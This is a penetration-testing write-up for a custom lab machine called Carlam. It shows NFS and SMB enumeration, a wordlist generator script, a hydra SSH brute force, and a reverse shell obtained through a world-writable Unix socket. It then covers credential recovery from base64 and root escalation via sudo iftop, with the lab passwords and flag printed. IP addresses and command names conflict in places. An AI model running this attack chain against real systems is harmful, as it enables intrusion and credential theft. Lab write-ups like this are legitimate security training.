# Carlam - Penetration Testing Report

**Machine:** Carlam

**Platform:** Custom Lab

**Difficulty:** Easy/Medium

**IP Address:** 10.111.170.213 ****

**Operating System:** Alpine Linux v3.8

**Kernel Version:** 4.14.167-0-virt

**Date:** 22.02.2026

---

## Executive Summary

This report documents the comprehensive penetration test of the Carlam machine, achieving root access through a multi-stage attack chain involving NFS enumeration, SMB user discovery, custom wordlist generation, Unix socket exploitation, and sudo privilege abuse. 

The engagement demonstrates vulnerabilities in network file system configurations, weak password policies, improper socket permissions, and insecure sudo configurations.

**Objectives Achieved:**

- User flag obtained (carlampio)
- Lateral movement achieved (xiroi, aitana)
- Root flag obtained

**Key Vulnerabilities:**

- Publicly accessible NFS shares
- Weak password complexity requirements
- World-writable Unix socket with privileged access
- Base64-encoded credentials in configuration files
- Insecure sudo permissions on network monitoring tools

---

## Reconnaissance & Enumeration

### Phase 1: Network Discovery

### Target System Boot Analysis

Initial observation of the target machine's boot process revealed valuable information about running services:



**Boot Sequence Analysis:**

The Alpine Linux 3.8 boot logs displayed automatic service initialization including:

- SSH daemon starting
- SMB/Samba services initializing
- NFS export configuration
- RPC bind service launching

**Critical Observation:** An error message during `Exporting NFS directories` suggested potential misconfigurations in the NFS setup, indicating a promising attack vector for initial enumeration.

---

### Phase 2: Network Mapping

### Attacker Network Configuration

Identifying the attacking machine's network configuration:

```bash
ip a
```



**Network Details:**

- **Interface:** wlan0
- **IP Address:** 10.111.170.181/24
- **Subnet:** 10.111.170.0/24

This confirmed the target machine would be located within the same /24 subnet.

---

### Host Discovery

Network sweep performed to identify active hosts:

bash

```bash
nmap -sn 192.168.100.0/24
```

**Alternative Method Used:**

```bash
sudo netdiscover -r 10.111.170.0/24
```

Show Image

**Discovery Results:**

| IP Address | MAC Address | Vendor | Status |
| --- | --- | --- | --- |
| 10.111.170.213 | 08:00:27:E3:2C:97  | (Oracle VirtualBox virtual NIC) | Active |

**Target Identified:** 10.111.170.213

---

### Phase 3: Port & Service Enumeration

### Comprehensive Port Scan

Full TCP port scan executed with service version detection:

bash

```bash
nmap -sS -sV -sC -T4 -p- --min-rate 5000 10.111.170.213
```

**Scan Parameters:**

- `sS` - SYN stealth scan
- `sV` - Service version detection
- `sC` - Default script execution
- `T4` - Aggressive timing
- `p-` - All 65535 ports
- `-min-rate 5000` - Minimum packet rate





**Open Ports Discovered:**

| Port | State | Service | Version | Notes |
| --- | --- | --- | --- | --- |
| 22/tcp | open | SSH | OpenSSH | Standard SSH service |
| 111/tcp | open | RPC | rpcbind | RPC portmapper |
| 139/tcp | open | NetBIOS-SSN | Samba | SMB over NetBIOS |
| 445/tcp | open | SMB | Samba | Direct SMB |
| 2049/tcp | open | NFS | NFSv3/v4 | Network File System |
| 40209/tcp | open | RPC | - | High RPC port |
| 45129/tcp | open | RPC | - | High RPC port |
| 47873/tcp | open | RPC | - | High RPC port |
| 50877/tcp | open | RPC | - | High RPC port |
| 56969/tcp | open | RPC | - | High RPC port |

**Critical Findings:**

- NFS service exposed externally (potential information disclosure)
- SMB/Samba accessible (user enumeration possible)
- Multiple RPC ports open (typical NFS configuration)

---

### Phase 4: NFS Enumeration

### NFS Export Discovery

Querying available NFS shares:

```bash
showmount -e 10.111.170.213
```


**NFS Exports Discovered:**

| Export Path | Access Control | Vulnerability |
| --- | --- | --- |
| /tmp/carlam | * (everyone) | World-readable/writable |
| /srv/share | * (everyone) | World-readable/writable |

**Security Issue:** Both shares exported to `*` (wildcard) allowing access from any IP address - severe misconfiguration.

---

### NFS Mount Attempt

**Mount Point Preparation:**

```bash
mkdir -p /mnt/carlam
mkdir -p /mnt/share
```

**Mounting /tmp/carlam:**

```bash
mount -t nfs 10.111.170.213:/tmp/carlam /mnt/carlam
```



**Result:** Mount failed - directory doesn't exist on server.

**Mounting /srv/share:**

```bash
mount -t nfs 192.168.100.126:/srv/share /mnt/share
```


**Result:** Successfully mounted.

---

### NFS Share Analysis

Examining mounted share contents:

```bash
ls -la /mnt/share
```



**Files Discovered:**

| Filename | Type | Size | Significance |
| --- | --- | --- | --- |
| carlampio.jpg | Image | 364K | Username hint |
| microrelato.txt | Text | 542 | Potential password hints |
| .notes | Hidden text | 74 | Configuration notes |

**File Content Analysis:**

**microrelato.txt:**

```bash
cat microrelato.txt
```



**Contents:** Spanish literary text containing repeated keywords:

- `amargo` (bitter)
- `agrio` (sour)
- `agridulce` (bittersweet)

**Analysis:** These words appear frequently and may serve as password components or hints.

**.notes:**

```bash
cat .notes
```



**Key Information:**

- System administration reminders
- **Critical hint:** "Not use leet" - suggests minimal leet speak transformation
- Confirms intentionally vulnerable configuration

**carlampio.jpg:**



**Significance:** Filename matches potential username discovered later.

---

### Phase 5: SMB Enumeration

### SMB Service Analysis

Comprehensive SMB enumeration using enum4linux:

```bash
enum4linux -a 10.111.170.213
```

**Security Assessment:** Extremely weak password policy enabling brute-force attacks.

**Useful Findings:**
**Session Information:**
- Null session authentication successful
- Guest access enabled
- No password required for enumeration



### **Password Policy Analysis:**

- Password Complexity: Disabled
- Minimum Password Length: 5 characters
- Password History: Not enforced
- Account Lockout: Not configured

**User Discovery:**

**Identified Users (RID Cycling):**
| Username | RID | Type | Status |
|---------------|--------|--------|----------|
| carlampio | 1000 | User | Active |
|      xiroi     | 1001 | User | Active |
|     aitana   | 1002 | User | Active |

|--------------|---------|--------|----------|



## Intelligence Analysis & Weaponization

### Password Pattern Analysis

### Information Synthesis

Combining intelligence from multiple sources:

**From NFS Share:**

1. Repeated Spanish words: `amargo`, `agrio`, `agridulce`
2. Image filename: `carlampio.jpg`
3. Hint: "Not use leet" (minimal leet speak)

**From SMB Enumeration:**

1. Usernames: `carlampio`, `xiroi`, `aitana`
2. Minimum password length: 5 characters
3. No complexity requirements

**Pattern Hypothesis:**

- Base words from Spanish hints
- Usernames as potential passwords
- Minimal leet speak transformation (a→4, e→3, i→1, o→0, s→5)
- Single uppercase letter variations
- No special characters or excessive numbers

---

### Custom Wordlist Generation

**Strategic Approach:** Rather than using generic wordlists, create a targeted wordlist based on discovered intelligence.

**Wordlist Generation Script:**

```bash
import itertools

base = ["amargo","acre","agrio","agridulce","carlampio","xiroi","aitana"]
leet = {"a":"4","e":"3","i":"1","o":"0","s":"5"}

def leet_variants(word):

    options = [
        (c, leet[c]) if c in leet else (c,)
        for c in word
    ]
    return {"".join(p) for p in itertools.product(*options)}

def one_uppercase_variants(word):
    results = set()

    for i in range(len(word)):
        temp = []
        for idx, c in enumerate(word):
            if idx == i:
                temp.append((c.upper(),))
            elif c in leet:
                temp.append((c, leet[c]))
            else:
                temp.append((c,))
        results |= {"".join(p) for p in itertools.product(*temp)}

    return results

final = set()

for word in base:
    final |= leet_variants(word)
    final |= one_uppercase_variants(word)

for pwd in sorted(final):
    print(pwd)
```

**Script Execution:**

```bash
python3 wordlist_generator.py > carlamm.txt
```

Show Image

**Wordlist Statistics:**

- Total combinations: 408
- Average password length: 6-10 characters
- Variations include: lowercase, single uppercase, minimal leet

---

## Initial Access

### SSH Credential Attack

### Targeted Brute Force

Using the custom wordlist against identified users:

```bash
hydra -l carlampio -P carlamm.txt ssh://10.111.170.213 -t 4
```

-t 4 ——    4 parallel tasks (to avoid triggering potential IDS)



**Credentials Discovered:**

- **Username:** carlampio
- **Password:** C4rl4mp10

---

### SSH Authentication

Establishing SSH connection with discovered credentials:

```bash
ssh carlampio@10.111.170.213
```



**Access Confirmed:**

- User: carlampio
- Shell: /bin/ash (Alpine default)
- Working Directory: /home/carlampio

---

### Initial Enumeration

### User Verification and Flag Retrieval

```bash
id
# uid=1000(carlampio) gid=1000(carlampio) groups=1000(carlampio)

whoami
# carlampio 

cat user.txt
# 23bdb9bfae27f13a9e216fa72fcdf9c5
```



**State:** carlapio regular user

### System Users

```bash
cat /etc/passwd | grep -v "nologin\|false"
```



**Confirmed Users:**

- carlampio (current)
- xiroi
- aitana
- root

---

## Post-Exploitation Enumeration

### Automated Enumeration with LinPEAS

### Tool Transfer

**Method:** SCP (Secure Copy Protocol)

**Step 1: Download LinPEAS on Attacking Machine**

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

**Step 2: Transfer via SCP**

```bash
scp linpeas.sh carlampio@192.168.100.126:/home/carlampio
```


**Alternative Method (if firewall blocks SCP):**

Start HTTP server on attacking machine:

```bash
python3 -m http.server 8000
```

Download from target:

```bash
wget http://192.168.100.115:8000/linpeas.sh -O /home/carlampiolinpeas.sh
```

---

### LinPEAS Execution

**Run LinPEAS:**

```bash
ash linpeas.sh
```



### **Critical Finding: Unix Socket**

LinPEAS Output - Unix Sockets Section:



### Found:
/tmp/app.sock

**Security Assessment:**

| Attribute | Value | Risk Level |
| --- | --- | --- |
| Permissions | 777 (world-writable) | Critical |
| Location | /tmp | High |
| Owner | xiroi | Medium |
| Type | Unix socket | Medium |

---

## Lateral Movement - Phase 1

### Unix Socket Exploitation

### Socket Interaction

**Initial Connection Attempt:**

```bash
socat - UNIX-CONNECT:/tmp/app.sock
```



**Analysis:** Socket expects specific commands and provides interactive interface.

---

### Socket Enumeration

**Requesting Help Menu:**

```bash
printf "help\n" | socat - UNIX-CONNECT:/tmp/app.sock
```



### Available Commands:

- help: Show this help
- whoami: Show current user
- shell: Open reverse shell to 127.0.0.1:4444

**Exploitation Strategy:**

The `create_reverse_shell` command opens a reverse shell to **127.0.0.1:4444** (localhost), meaning:

1. We need to listen on port 4444 from within the target machine
2. The socket will connect back as the `xiroi` user
3. We'll gain lateral movement to xiroi's account

---

### Reverse Shell Setup

**Step 1: Open Second SSH Session**

```bash
ssh carlampio@10.111.170.213
```

**Step 2: Start Listener on Target Machine**

```bash
nc -lvnp 4444
```

**Step 3: Trigger Reverse Shell**

From first SSH session:

```bash
printf "create_reverse_shell\n" | socat - UNIX-CONNECT:/tmp/app.sock
```



---

### Shell Reception

**Listener Output:**

`connect to [::ffff:127.0.0.1]:4444 from [::ffff:127.0.0.1]:33047 ([::ffff:127.0.0.1]:33047)`

**Verification:**

```bash
id
# uid=1001(xiroi) gid=1001(xiroi) groups=1001(xiroi)

whoami
# xiroi
```

**Lateral Movement Successful:**

- **Previous User:** carlampio (uid=1000)
- **Current User:** xiroi (uid=1001)
- **Method:** Unix socket exploitation



---

## Lateral Movement - Phase 2

### User xiroi Enumeration

### Home Directory Analysis

```bash
ls -la 
```

**Files Discovered:**

| Filename | Type | Permissions | Notes |
| --- | --- | --- | --- |
| .conf/ | Directory | drwxr-xr-x | Configuration directory |
| .ash_history | File | -rw------- | Shell history |
| app | File | -rwxr-xr-x | that socket app |

---

### Configuration Directory Investigation

```bash
ls -la .conf
```



**Contents:**



---

### Credential Decryption

**Decoding Base64:**

bash

```bash
echo "YWl0YW5hOjQxdDRuNFNfUzNjcjN0Cg==" | base64 -d
```



**Extracted Credentials:**

- **Username:** aitana
- **Password:** 41t4n4S_S3cr3t

---

### User Switch to Aitana

```bash
ssh [aitana@10.111.170.213](mailto:aitana@10.111.170.213)
```

**Verification:**

```bash
id
# uid=1002(aitana) gid=1002(aitana) groups=1002(aitana)

whoami
# aitana
```

**Lateral Movement Chain Complete:**

- carlampio (SSH) → xiroi (Unix socket) → aitana (stored credentials)



**State:** aitana regular user

---

## Privilege Escalation

### Sudo Permission Analysis

### Checking Sudo Rights

```bash
sudo -l
```



### GTFOBins Research

```bash
https://gtfobins.github.io/gtfobins/iftop/
```



---

### Root Shell Acquisition

### Exploitation Process

**Step 1: Launch iftop as Root**

```bash
sudo iftop
```

**Step 2: Access Command Execution**

Press `!` key within iftop interface

Show Image

**Step 3: Spawn Root Shell**

Type and execute:

```bash
/bin/ash
```

Press Enter.

